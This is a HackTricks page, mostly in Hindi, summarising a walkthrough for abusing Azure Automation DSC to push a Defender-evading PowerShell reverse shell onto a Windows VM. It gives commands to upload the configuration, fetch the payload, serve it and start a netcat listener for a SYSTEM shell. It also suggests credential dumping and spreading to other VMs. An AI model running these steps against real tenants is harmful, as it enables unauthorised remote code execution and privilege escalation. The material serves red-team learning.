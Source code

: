 # Az - State Configuration RCE

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Check the complete post in:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Summary of Remote Server (C2) Infrastructure Preparation and Steps

#### Overview

यह प्रक्रिया एक संशोधित Nishang `Invoke-PowerShellTcp.ps1` पेलोड को होस्ट करने के लिए एक रिमोट सर्वर इन्फ्रास्ट्रक्चर सेट करने में शामिल है, जिसे `RevPS.ps1` कहा जाता है, जिसे Windows Defender को बायपास करने के लिए डिज़ाइन किया गया है। पेलोड को एक Kali Linux मशीन से IP `40.84.7.74` का उपयोग करके एक साधारण Python HTTP सर्वर के माध्यम से परोसा जाता है। यह ऑपरेशन कई चरणों के माध्यम से निष्पादित किया जाता है:

#### Step 1 — Create Files

* **Files Required:** दो PowerShell स्क्रिप्ट की आवश्यकता है:
1. `reverse_shell_config.ps1`: एक Desired State Configuration (DSC) फ़ाइल जो पेलोड को लाने और निष्पादित करने के लिए है। इसे [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1) से प्राप्त किया जा सकता है।
2. `push_reverse_shell_config.ps1`: VM पर कॉन्फ़िगरेशन को प्रकाशित करने के लिए एक स्क्रिप्ट, जो [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1) पर उपलब्ध है।
* **Customization:** इन फ़ाइलों में वेरिएबल और पैरामीटर को उपयोगकर्ता के विशिष्ट वातावरण के अनुसार अनुकूलित किया जाना चाहिए, जिसमें संसाधन नाम, फ़ाइल पथ, और सर्वर/पेलोड पहचानकर्ता शामिल हैं।

#### Step 2 — Zip Configuration File

* `reverse_shell_config.ps1` को एक `.zip` फ़ाइल में संकुचित किया जाता है, जिससे इसे Azure Storage Account में स्थानांतरित करने के लिए तैयार किया जा सके।
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Step 3 — स्टोरेज संदर्भ सेट करें और अपलोड करें

* ज़िप किया गया कॉन्फ़िगरेशन फ़ाइल एक पूर्वनिर्धारित Azure स्टोरेज कंटेनर, azure-pentest, में Azure के Set-AzStorageBlobContent cmdlet का उपयोग करके अपलोड किया जाता है।
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Step 4 — Prep Kali Box

* Kali सर्वर GitHub रिपॉजिटरी से RevPS.ps1 पेलोड डाउनलोड करता है।
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* स्क्रिप्ट को लक्षित Windows VM और रिवर्स शेल के लिए पोर्ट निर्दिष्ट करने के लिए संपादित किया गया है।

#### Step 5 — Publish Configuration File

* कॉन्फ़िगरेशन फ़ाइल को निष्पादित किया जाता है, जिसके परिणामस्वरूप रिवर्स-शेल स्क्रिप्ट को Windows VM पर निर्दिष्ट स्थान पर तैनात किया जाता है।

#### Step 6 — Host Payload and Setup Listener

* पायथन SimpleHTTPServer को पेलोड को होस्ट करने के लिए शुरू किया जाता है, साथ ही एक Netcat लिस्नर को आने वाले कनेक्शनों को कैप्चर करने के लिए।
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* निर्धारित कार्य पेलोड को निष्पादित करता है, SYSTEM-स्तरीय विशेषाधिकार प्राप्त करता है।

#### निष्कर्ष

इस प्रक्रिया का सफल निष्पादन आगे की क्रियाओं के लिए कई संभावनाएँ खोलता है, जैसे कि क्रेडेंशियल डंपिंग या हमले को कई VMs तक बढ़ाना। गाइड Azure Automation DSC के क्षेत्र में निरंतर सीखने और रचनात्मकता को प्रोत्साहित करता है।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
